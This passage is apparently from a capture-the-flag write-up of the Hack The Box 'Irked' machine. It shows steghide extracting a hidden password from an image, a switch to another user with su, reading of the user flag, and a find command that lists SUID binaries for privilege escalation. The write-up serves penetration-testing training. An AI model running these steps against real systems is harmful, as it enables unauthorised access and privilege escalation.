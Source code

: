 ```none
kali@kali:~/htb/machines/irked/privesc/steg$ steghide --extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss
wrote extracted data to "pass.txt".
kali@kali:~/htb/machines/irked/privesc/steg$ cat pass.txt
Kab6h+m+bbp2J:HG
```

I was then able to use that password to become the `djmardov` user:

```none
ircd@irked:/home/djmardov$ su djmardov
Password:
djmardov@irked:~$ id
uid=1000(djmardov) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
djmardov@irked:~$ cat user.txt
```

And grab thier flag:

```none
djmardov@irked:~$ cat Documents/user.txt
4a66a78b12dc0e661a59d3f5c0267a8e
```

## Privilege Escalation - Root Own (Abusing Arbitrary Commands Invoked by SUID Binaries)

From the previos `id` command above, I noticed the `djmardov` user was part of the `video` group which meant that this user was allowed perform video related operations.
Enumerating the system for SUID binaries reveled the following:

```none
djmardov@irked:/dev/shm$ find / -perm -4000 -ls 2>/dev/null
404330  356 -rwsr-xr--   1 root     messagebus   362672 Nov 21  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
394848   12 -rwsr-xr-x   1 root     root         9468 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
412270   16 -rwsr-xr-x   1 root     root        13816 Sep  8  2016 /usr/lib/policykit-1/polkit-agent-helper-1
410047  552 -rwsr-xr-x   1 root     root       562536 Nov 19  2017 /usr/lib/openssh/ssh-keysign
408970   16 -rwsr-xr-x   1 root     root        13564 Oct 14  2014 /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
409724 1060 -rwsr-xr-x   1 root     root      1085300 Feb 10  2018 /usr/sbin/exim4
424276  332 -rwsr-xr--   1 root     dip        338948 Apr 14  2015 /usr/sbin/pppd
394369   44 -rwsr-xr-x   1 root     root        43576 May 17  2017 /usr/bin/chsh
410065   96 -rwsr-sr-x   1 root     mail        96192 Nov 18  2017 /usr/bin/procmail
394371   80 -rwsr-xr-x   1 root     root        78072 May 17  2017 /usr/bin/gpasswd
393000   40 -rwsr-xr-x   1 root     root        38740 May 17  2017 /usr/bin/newgrp
409644   52 -rwsr-sr-x   1 daemon   daemon      50644 Sep 30  2014 /usr/bin/at
412272   20 -rwsr-xr-x   1 root     root        18072 Sep  8  2016 /usr/bin/pkexec
424835   12 -rwsr-sr-x   1 root     root         9468 Apr  1  2014 /usr/bin/X
394373   52 -rwsr-xr-x   1 root     root        53112 May 17  2017 /usr/bin/passwd
394368   52 -rwsr-xr-x   1 root     root        52344 May 17  2017 /usr/bin/chfn
1062682    8 -rwsr-xr-x   1 root     root         7328 May 16  2018 /usr/bin/viewuser
914060   96 -rwsr-xr-x   1 root     root        96760 Aug 13  2014 /sbin/mount.nfs
783487   40 -rwsr-xr-x   1 root     root        38868 May 17  2017 /bin/su
783401   36 -rwsr-xr-x   1 root     root        34684 Mar 29  2015 /bin/mount
792821   36 -rwsr-xr-x   1 root     root        34208 Jan 21  2016 /bin/fusermount
792836  160 -rwsr-xr-x   1 root     root       161584 Jan 28  2017 /bin/ntfs-3g
783402   28 -rwsr-xr-x   1 root     root        26344 Mar 29  2015 /bin/umount
```
